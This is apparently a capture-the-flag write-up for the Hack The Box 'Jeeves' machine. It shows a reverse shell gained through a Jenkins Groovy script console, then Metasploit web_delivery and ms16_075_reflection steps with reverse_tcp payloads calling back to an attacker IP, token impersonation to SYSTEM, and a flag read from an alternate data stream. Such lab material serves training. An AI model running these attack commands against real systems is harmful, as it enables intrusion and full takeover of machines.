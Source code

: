 ```yaml
---
description: https://app.hackthebox.com/machines/114
---
```


# 🪄 Jeeves

<figure><img src="../../.gitbook/assets/image (577).png" alt=""><figcaption></figcaption></figure>

Staring with the nmap we see a web server on port 80 and 50000,&#x20;

**port 80:**

<figure><img src="../../.gitbook/assets/image (578).png" alt=""><figcaption></figcaption></figure>

just a webpage like this, the links do not go anywhere and if we search anything:

<figure><img src="../../.gitbook/assets/image (579).png" alt=""><figcaption></figcaption></figure>

we get an error page, with SQL server written on it so maybe we got a SQLi somewhere

but we quickly see the error page is a fake one, it's an image:

<figure><img src="../../.gitbook/assets/image (581).png" alt=""><figcaption></figcaption></figure>

So let's go on **port 50000**

open up the graphical interface and fire up the manual exploitation like this:

```
dirbuster&
```

<figure><img src="../../.gitbook/assets/image (582).png" alt=""><figcaption></figcaption></figure>

after waiting for a bit we find a subdomain that redirects to a dashboard ->

<figure><img src="../../.gitbook/assets/image (583).png" alt=""><figcaption></figcaption></figure>

jeeves is well known to be unsecure and to have a script code section

<figure><img src="../../.gitbook/assets/image (584).png" alt=""><figcaption></figcaption></figure>

We instantly see that the script console uses groovy:

<figure><img src="../../.gitbook/assets/image (586).png" alt=""><figcaption></figcaption></figure>

now we go and fetch our payload of choice:

Groovy Reverse Shell - [https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

<figure><img src="../../.gitbook/assets/image (585).png" alt=""><figcaption><p>copy this payload</p></figcaption></figure>

Set up a listener, modify the payload:

<figure><img src="../../.gitbook/assets/image (587).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (600).png" alt=""><figcaption></figcaption></figure>

then, fire up the payload and get your shell:

<figure><img src="../../.gitbook/assets/image (588).png" alt=""><figcaption></figcaption></figure>

Now is the perfect moment to look at our previous documentation:

{% content-ref url="../../red-team/technical-knowledge/privilege-escalation/windows/impersonation-and-potato-attacks.md" %}
[impersonation-and-potato-attacks.md](../../red-team/technical-knowledge/privilege-escalation/windows/impersonation-and-potato-attacks.md)
{% endcontent-ref %}

```
whoami /priv
```

we instantly see our go to path:

<figure><img src="../../.gitbook/assets/image (589).png" alt=""><figcaption></figcaption></figure>

another way of enumerating is ->

```
systeminfo
```

<figure><img src="../../.gitbook/assets/image (591).png" alt=""><figcaption></figcaption></figure>

copy and paste the whole outpu in a txt file, then

<figure><img src="../../.gitbook/assets/image (592).png" alt=""><figcaption></figcaption></figure>

```
./windows-exploit-suggester.py --database 2020-04-17-mssb.xls --systeminfo systeminfo.txt
```

[**`https://github.com/AonCyberLabs/Windows-Exploit-Suggester`**](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

1. **`./v.py`**: This is the command to execute the Python script `windows-exploit-suggester.py`. The `./` prefix specifies the current directory where the script is located.
2. **`--database 2020-04-17-mssb.xls`**: This option specifies the database file to be used by the script. The database file, named `2020-04-17-mssb.xls`, likely contains information about known Microsoft security bulletins and associated vulnerabilities.
3. **`--systeminfo systeminfo.txt`**: This option specifies the system information file to be used by the script. The file named `systeminfo.txt` likely contains detailed information about the target Windows system, such as operating system version, installed patches, and installed software.

If ran correctly, we'll get hot potato attacks, juicy potato etc

We could also use metasploit:&#x20;

```
use exploit/multi/script/web_delivery
options
show targets
```

<figure><img src="../../.gitbook/assets/image (593).png" alt=""><figcaption></figcaption></figure>

```
set target 2
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.94
set srvhost 10.10.14.94
run
```

<figure><img src="../../.gitbook/assets/image (594).png" alt=""><figcaption></figcaption></figure>

then paste this payload in your already existing session:

<figure><img src="../../.gitbook/assets/image (595).png" alt=""><figcaption></figcaption></figure>

and back on your msfconsole you just have to type in the command:

```
sessions 1
```

<figure><img src="../../.gitbook/assets/image (596).png" alt=""><figcaption></figcaption></figure>

then to continue, you could enumerate:

```
 run post/multi/recon/local_exploit_suggester 
```

<figure><img src="../../.gitbook/assets/image (598).png" alt=""><figcaption></figcaption></figure>

put that aside with the background command and put this payload:

```
background
use exploit/windows/local/ms16_075_reflection
set lhost 10.10.14.94
set lport 5555 
#because session1 runs on 4444
set payload windows/x64/meterpreter/reverse_tcp
```

and if you did everything correctly and you run the payload, you'll get a shell, now

now let's follow in cmd:

```
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

<figure><img src="../../.gitbook/assets/image (599).png" alt=""><figcaption></figcaption></figure>

```
shell
```

And when  we go on administrator desktop we find no root flag?

Alternate Data Streams - [https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)

what we learn in this article is that there are primary data streams and alternate&#x20;

1. **Primary Data Streams**:
   * Primary data streams are the main data associated with a file. When you create or modify a file in Windows, you're working with its primary data stream.
   * Every file in NTFS has at least one primary data stream, which contains the file's main content.
   * Primary data streams are typically what you interact with when you open, read, write, or execute a file. They contain the file's actual data, such as text, executable code, images, etc.
   * Files with only primary data streams are considered "regular" files in Windows.
2. **Alternate Data Streams (ADS)**:
   * Alternate data streams are additional streams of data that can be associated with a file. They are not typically visible through regular file system navigation tools like File Explorer.
   * An alternate data stream is a named stream of data that is attached to a file's primary data stream. Each alternate data stream is associated with a specific name, allowing multiple streams to exist within a single file.
   * Alternate data streams can be used for various purposes, such as storing metadata, file attributes, or additional content related to the main file.
   * While alternate data streams are not commonly used in everyday file operations, they can be leveraged by attackers for hiding malicious content or data within seemingly innocent files.

So on the Desktop we see a hm.txt file

```
dir /R
```

<figure><img src="https://thecyberjedi.com/wp-content/uploads/2020/01/image-103.png" alt=""><figcaption></figcaption></figure>

to view the contents of the file we can type **more < hm.txt:root.txt**

**Very  good writeup:** [**https://thecyberjedi.com/jeeves/**](https://thecyberjedi.com/jeeves/)

